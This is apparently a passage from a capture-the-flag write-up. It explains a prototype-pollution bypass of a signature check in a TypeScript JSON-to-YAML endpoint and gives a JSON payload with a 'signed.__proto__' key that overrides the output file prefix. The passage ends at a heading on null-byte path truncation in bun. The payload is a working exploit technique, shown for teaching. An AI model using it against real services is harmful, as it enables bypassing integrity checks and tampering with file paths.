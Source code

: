 ```ts
    try {
      const body = c.req.valid('json');
      const data = body.data;
      const signedData = getSignedData(data)
      const signature = body.signature;
      if (!hasValidSignature(signedData, signature)) {
        return c.json({ msg: "signatures do no match!" }, 400);
      }
      const outputPrefix = z.string().parse(signedData.outputPrefix ?? "prisoner");
      const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
      if (convertJsonToYaml(data, outputFile)) {
        return c.json({ msg: outputFile });
      } else {
        return c.json({ msg: "failed to convert JSON" }, 500);
      }
    } catch (error) {
      console.error(error);
      return c.json({ msg: "why you send me a bad request???" }, 400);
    }
  }
);
```

The issue here is that `getSignedData` iterates through the properties and any propeties that start with `signed.` gets placed in the `signedParams`. If there was a property named `signed.__proto__` then it would could `signedParams["__proto__"] = data["signed.__proto__"]` and poison the prototype for the `signedParams` variable.

This would then bypass our injected values being hashed in `getSignature` since `Object.entries(data)` does not iterate over the properties of an inputs `__proto__` object.

Therefore, our first iteration of the payload is as follows.

```json
{
    "data": {
        "signed.name": "jeff",
        "signed.animalType": "emu",
        "signed.age": 12,
        "signed.crime": "assault",
        "signed.description": "clotheslined someone with their neck",
        "signed.start": "2024-03-02T10:45:01Z",
        "signed.release": "2054-03-02T10:45:01Z",
        "signed.__proto__": {
            "outputPrefix": "someotherprefix"
        }
    },
    "signature": "5c9396d88b7765d1c69dd949adfcc1f82ed766cbf534c16297eed346a4b453f5"
}
```

# Part 2: Null byte path truncation bug in `bun`
